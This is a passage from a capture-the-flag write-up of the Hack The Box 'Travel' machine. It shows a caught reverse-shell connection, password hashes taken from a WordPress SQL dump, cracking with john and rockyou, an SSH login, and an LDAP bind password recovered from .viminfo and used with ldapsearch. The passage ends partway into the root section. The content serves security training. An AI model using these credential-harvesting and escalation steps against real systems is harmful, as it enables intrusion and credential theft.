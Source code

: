 ```bash
Ncat: Connection from 10.10.10.189:57904.
ls
this.php
```
<br>
## On the box
This was hard work but the steps to user are walked fast: A bit of enumeration shows an unusual SQL dump in /opt:
```bash
INSERT INTO `wp_users` VALUES (1,'admin','$P$BIRXVj/ZG0YRiBH8gnRy0chBx67WuK/','admin','admin@travel.htb','http://localhost','2020-04-13 13:19:01','',0,'admin'),(2,'lynik-admin','$P$B/wzJzd3pj/n7oTe2GGpi5HcIl4ppc.','lynik-admin','lynik@travel.htb','','2020-04-13 13:36:18','',0,'Lynik Schmidt');
```
Cracking the PW of lynik-admin with john and the usual `rockyou.txt` results in `1stepcloser` which made me smirk. This is his ssh password and we obtain the user flag, now smiling.
{: .text-justify}
```bash
lynik-admin@travel:~$ ls
user.txt
```
<br>
# Root part.
It's a good habit to start looking where you land and here, it paid big time: 
```bash
lynik-admin@travel:~$ ls -a
.  ..  .bash_history  .bash_logout  .bashrc  .cache  .ldaprc  .profile  user.txt  .viminfo
lynik-admin@travel:~$ cat .ldaprc 
HOST ldap.travel.htb
BASE dc=travel,dc=htb
BINDDN cn=lynik-admin,dc=travel,dc=htb
```
To verify we are on the right track we look at `/etc/hosts` to see if/how the domain is resolved:
```bash
lynik-admin@travel:~$ cat /etc/hosts
127.0.0.1 localhost
127.0.1.1 travel
172.20.0.10 ldap.travel.htb
```
## Connecting the dots
We start out by trying to query the ldap service right away and are greeted by `Invalid credentials` using several passwords we found along the way:
```bash
lynik-admin@travel:~$ ldapsearch ldap.travel.htb -D "cn=lynik-admin,dc=travel,dc=htb" "uid=lynik-admin" -x -w 1stepcloser
ldap_bind: Invalid credentials (49)
```
Thus we investigate our home directory even more and find the LDAP password inside `.viminfo`:
```bash
lynik-admin@travel:~$ cat .viminfo 
[snip]
# Registers:
""1     LINE    0
        BINDPW Theroadlesstraveled
|3,1,1,1,1,0,1587670528,"BINDPW Theroadlesstraveled"
```
Now, the above `ldapsearch` command works using `Theroadlesstraveled` as password. We notice a bunch of users and that lynik-admin is a LDAP admin:
```bash
ldapsearch -x -H ldap://ldap.travel.htb -D "cn=lynik-admin,dc=travel,dc=htb" -w Theroadlesstraveled
# lynik-admin, travel.htb
dn: cn=lynik-admin,dc=travel,dc=htb
description: LDAP administrator
```